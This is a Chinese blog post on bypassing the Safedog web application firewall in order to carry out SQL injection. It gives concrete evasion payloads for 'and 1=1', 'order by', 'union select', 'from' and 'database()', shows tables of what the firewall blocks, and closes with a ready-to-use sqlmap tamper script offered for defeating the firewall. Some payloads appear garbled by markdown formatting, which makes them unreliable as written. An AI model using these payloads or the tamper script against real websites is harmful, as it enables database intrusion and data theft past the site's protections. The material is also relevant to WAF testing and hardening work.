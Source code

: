 ```yaml
---
permalink: 2019/10/08/bypass-safedog/
tags:
  - 安全狗
layout: post
date: '2019-10-08 08:00:00'
categories:
  - web安全
  - bypass方法
home_cover: ''
title: bypass安全狗
---
```


## 安全狗防护基本方法


本次使用的安全狗版本为：V4.0 27338 IIS 正式版，是官网截止2019年10月8号的最新版本，本篇文章主要介绍sql注入突破。


### sql注入防护


在安全狗的默认防护规则中有一系列关于sql注入的防护


![20191008153228.png](../post_images/37ef36ecfb887c738e84cb3ae83d38e3.png)


当初发这些规则时就会被拦截，例如：


![20191008153332.png](../post_images/90004e8003f8bc8d52f1bfd925cabc69.png)


## bypass Sql注入防护


### 绕过总结（图片来自网上）


![20191008154146.png](../post_images/e52249e407e1ffbee5860f507e6a9419.png)


### 绕过 `and 1=1`

1. 直接使用`and -1=-1`绕过

	![20191008213720.png](../post_images/0521454d28fb56274e1dec78ffb410d1.png)

2. 使用注释绕过，50000表示mysql的大版本号为5.0版本

或者：

	![20191008213555.png](../post_images/9ec06eb269700f42aa498a0878845935.png)


	![20191008213654.png](../post_images/3ddff93d64d366f11527ad97e00dca1d.png)

3. 使用减法或加法绕过，注意加号需要进行url编码

	![20191008223515.png](../post_images/a14ededa09ce095cc1ea526b827f2258.png)


	![20191008223608.png](../post_images/1958bc609497f58fb7ab822b8d53b4f2.png)

4. 使用`&&`代替and，使用`true`代替`1=1`

	![20191008225210.png](../post_images/d58da30a0c2fb68b39bef68777e56210.png)

5. 其它绕过说明只有and和`1=1`在一起时安全狗才会拦截,那就需要干扰安全狗将and和`1=1`使用一系列注释和特殊字符分开，例如：_**`/!and////!/!1=1/`**_

	| payload | 结果  |
	| ------- | --- |
	| and     | 未拦截 |
	| 1=1     | 未拦截 |
	| and 1=1 | 拦截  |


	![20191009103349.png](../post_images/8a55ffca89963bb3ba37d2629bca83be.png)


### 绕过`order by`


| payload  | 结果  |
| -------- | --- |
| order    | 未拦截 |
| by       | 未拦截 |
| order by | 拦截  |


说明只有order和by在一起时安全狗才会拦截。

1. 使用`.`绕过

	![20191009151740.png](../post_images/d7e70d38f2afe0f482a9eeb76028fac9.png)

2. 使用`%23%0a`绕过

	![20191009153514.png](../post_images/a38e9d3d942f357416050fa443c25085.png)

3. fuzz出来的其它绕过方式,有很多，这里只举其中的5中方式
	- _**`/!order /!///by/1,2,3,4`**_
	- _**`/!order //%//by/1,2,3,4`**_
	- _**`/!order ////by/1,2,3,4`**_
	- _**`/!order /!/////by/1,2,3,4`**_
	- _**`/!order /!//////by/1,2,3,4`**_

### 绕过`union select`


| payload      | 结果  |
| ------------ | --- |
| union        | 未拦截 |
| select       | 未拦截 |
| union select | 拦截  |


说明只有union和select在一起时安全狗才会拦截。


> 安全狗对`union select`的过滤比较严，我只找到了一种绕过方法。

1. 使用`--+aaaaaa%0a`绕过

	![20191010151154.png](../post_images/6393b007de58dfdda4960db9ccc28a26.png)


### 绕过`select from`


| payload     | 结果  |
| ----------- | --- |
| select      | 未拦截 |
| from        | 未拦截 |
| select from | 未拦截 |
| select 1    | 未拦截 |
| from 1      | 拦截  |
| from1       | 未拦截 |


说明from后面有空格时会拦截。

1. 使用`-+`即可绕过（仅适用于from后面跟数字的情况）：

	![20191010113333.png](../post_images/1afcc430a32bc9623315b0f784d7b387.png)

2. 使用_`/!99999c//!99999c/FROM`_绕过

	![20191010164125.png](../post_images/ce0a836cc2965cf85ac649ec00291d8a.png)


### 绕过`database()`


使用注释即可绕过：



![20191010153612.png](../post_images/9b5faab21adc00ab967207fa9c095769.png)


## sqlmap tamper


最后赠送过狗tamper


```python
_#!/usr/bin/env python

from lib.core.enums import PRIORITY
from lib.core.settings import UNICODEENCODING_
**priority** = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, kwargs):
    if payload:
        payload=payload.replace(" ","/_!_/")
        payload=payload.replace("=","/_!_/=/_!_/")
        # payload=payload.replace('1=1','true')
        payload=payload.replace("AND","/_!AND/_//")
        payload=payload.replace("OR","/_!OR/_//")
        payload=payload.replace("UNION SELECT","UNION--+aaaaaa%0aSELECT")
        payload=payload.replace("#","/_!_/#")
        payload=payload.replace("USER()","USER/_!()_/")
        payload=payload.replace("DATABASE()","DATABASE/_!()_/")
        payload=payload.replace("--","/_!_/--")
        payload=payload.replace("FROM","/_!99999c_//_!99999c_/FROM")
        payload=payload.replace("CONCAT","/_!12345CONCAT_/")
        payload=payload.replace("CAST(","/_!12345CAST(_/")
        payload=payload.replace("CASE","/_!12345CASE_/")
    return payload

```


## 参考文章

- [Fuzzing---Sql injection bypass with BurpSuite](https://www.key1.top/index.php/archives/255/)
- [安全狗bypass注入](https://www.cnblogs.com/R4v3n/articles/9082419.html)
- [bypass安全狗绕过方法](https://www.yuag.org/2018/11/29/bypass%E5%AE%89%E5%85%A8%E7%8B%97%E7%BB%95%E8%BF%87%E6%96%B9%E6%B3%95/)
- [bypass安全狗](http://flag0.com/2018/04/20/bypass%E5%AE%89%E5%85%A8%E7%8B%97/)
- [Fuzzing With FuzzDB to Web Attack](https://payloads.online/archivers/2018-02-05/1)
- [Fuzz安全狗注入绕过](https://blog.csdn.net/nzjdsds/article/details/77367899)
